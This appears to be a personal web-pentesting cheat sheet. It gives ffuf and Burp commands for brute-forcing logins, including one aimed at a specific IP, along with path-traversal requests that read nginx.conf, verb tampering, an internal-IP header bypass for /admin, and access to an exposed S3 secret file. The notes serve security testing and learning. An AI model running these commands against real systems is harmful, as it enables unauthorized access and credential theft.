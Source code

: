 # Default Credentials
- Use Password-spray instead of Brute-force attack.
- Username/Password lists:
  - https://github.com/danielmiessler/SecLists/
  - https://wordlists.assetnote.io
- Brute-force with **ffuf**:
  ```bash
  ffuf -u "http://77.238.121.150:47000/login.php" -w usernames.txt:USER -w passwords.txt:PASS -d "Username=USER&Password=PASS&Submit=Login" -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie:PHPSESSID=gp4vd1paqk3fr10m9o1rm3on6n" -mode pitchfork -mc all -fc 200
  ffuf -u http://site.com/api/v1/auth -w wordlist:UU,wordlist:PP -H "Content-Type: application/json" -d '{"user": "UU", "pass": "PP"}'   # fuzzing for valid credentials
  ```
- Brute-force with **Burpsuite**:
  - First select Username with $ and then select Password, then select username list for 1 and passwordlist for 2.
  - Attack type should be set to *Pitchfork*.
    - *Pitchfork*  →  `user1:pass1`, `user2:pass2`, `user3:pass3`
    - *ClusterBomb*  →  `user1:pass1`, `user1:pass2`, `user1:pass3`

# Force Browsing
- Common file types to discover:
  ```bash
  Version control files: .git|.svn
  Backup files: .zip|.tar.gz|.7z
  Bash files: .bash|.sh
  Source codes: .go|.phps|.py
  Packages files: composer.json|npm_modules
- **Endpoint** vs **Static-resource**
  - Add `a` to each part of URI, if there is a difference in response, that part is an endpoint:
    - *GET /**a**static/get/Montery.ttf HTTP/1.1*  →  `404 Not Found`
    - *GET /static/**a**get/Montery.ttf HTTP/1.1*  →  `404 Not Found`
    - *GET /static/get/**a**Montery.ttf HTTP/1.1*  →  `200 OK`
- Check if there is directory listing by adding `.` to the end of URI:
  ```bash
  GET /static/get/. HTTP/1.1
  GET /static/get/..%2findex.js HTTP/1.1
  GET /static/get/..%2nginx%2fnginx.conf HTTP/1.1
  ```
- **ffuf**
  - https://github.com/ffuf/ffuf
  - https://notes.benheater.com/books/web/page/use-ffuf-to-brute-force-login
  - Used for *Directory brute force*, *File brute force (various extensions)*, *Header fuzzing*, *Authentication brute force*.
  - Not recommended for *Parameter fuzzing* (Use **X8** instead).
  - This tool uses `User-Agent= ffuf`, so we should define it in the command.
  ```bash
  ffuf -w wordlist -u https://site.com/FUZZ                               # fuzzing for directory or file
  ffuf -w wordlist -u https://site.com/FUZZ -e .zip                       # fuzzing for .zip files
  ffuf -w wordlist -u https://site.com/FUZZ -H "Cookie: some_cookie"      # fuzzing + header
  ffuf -w wordlist -u https://site.com/FUZZ -fc 403                       # fuzzing + filtering out 403 from the result
  ffuf -w wordlist -u https://site.com/ -H "header: FUZZ"                 # fuzzing on a header
  ffuf -w wordlist -u http://site.com/FUZZ -mc all -fc 404,301,403        # fuzzing for directory or file + matching for specific status codes
  ffuf -w words.txt:YASHAR -u http://site.com/YASHAR.sql -mc all -fc 404  # finc sql files on server
  ```
  - First use `-mc all` to show all response, then find needed filters and use them by `-fc 404`.
  ```bash
  ffuf -w wordlist -u http://77.238.121.150:53001/FUZZ -mc all                 # Always use mc all
  ffuf -w wordlist -u http://77.238.121.150:53001/FUZZ -mc all -fs 10697       # We get 404 for log
  ```
- Create wordlist for fuzzing for bypasses:
  ```bash
  crunch 2 2 a1234567890 > fuzz
  ```

# Stack Trace Errors
- Verb Tamper to cause error.
- Replace numeric values with alphabetical values to cause an error.
  - `GET /product?productId=1`  =>  `GET /product?productId="example"`
- Send all characters and their combinations (*like `[]`, `()`, `{}`, `@`, `#`, ...*) in every position of parameters (*like `$$Username$$=admin&$$Password$$=admin&Submit=Login`*) to cause error.

# Verb Tamper
- Right-click on the request in  Burpsuit Repeater and select `Change request method`.
- In Burp Intruder, attack on the `Verb` with `POST`, `DELETE`, `OPTION`, `PUT`, `PATCH`, `TRACE`, `HEAD` to cause error.
- Change verb of `GET /admin HTTP/2` to `TRACE /admin HTTP/2` to reveal custom header  =>  `X-Custom-IP-Authorization: 161.97.138.12`
  - We may access to `/admin` via internal address, so we add `X-Custom-IP-Authorization: 127.0.0.1` header and send `GET /admin HTTP/2` request.
- If there is an XSS on both GET and POST of a page, we prefer to report XSS on GET request.
- GET requests are easier to chain the attack with another vulnerabilities.

# Tip
- Search for comments in Burpsuite:
  - Target  →  Site map  →  right-click on target  →  Engagement tools  →  Find comments
- Find sensitive files path (*like backups*) in `/robots.txt`.
- For websites that are hosted on **S3 bucket**, their Bucket-list must be private, otherwise we can find bucket name and change the url to access sensitive data.
  ```
  http://aws.icollab.info.s3-website.ap-northeast-2.amazonaws.com/
  http://aws.icollab.info.s3.ap-northeast-2.amazonaws.com
  http://aws.icollab.info.s3.ap-northeast-2.amazonaws.com/secr3t.txt
  ```
